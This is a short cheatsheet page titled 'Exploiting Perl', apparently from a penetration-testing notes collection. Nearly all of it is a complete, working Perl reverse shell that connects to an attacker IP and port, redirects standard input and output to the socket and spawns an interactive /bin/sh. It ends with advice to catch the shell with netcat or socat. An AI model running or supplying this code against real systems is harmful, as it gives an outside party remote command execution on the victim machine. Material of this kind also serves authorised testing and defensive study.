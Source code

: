 # Exploiting Perl

A simple reverse shell:

```perl
use Socket;

$attacker_ip="10.0.0.1";
$attacker_port=1234;

socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if(connect(S,sockaddr_in($attacker_port, inet_aton($attacker_ip)))){
	open(STDIN, ">&S");
	open(STDOUT, ">&S");
	open(STDERR, ">&S");
	exec("/bin/sh -i");
};
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
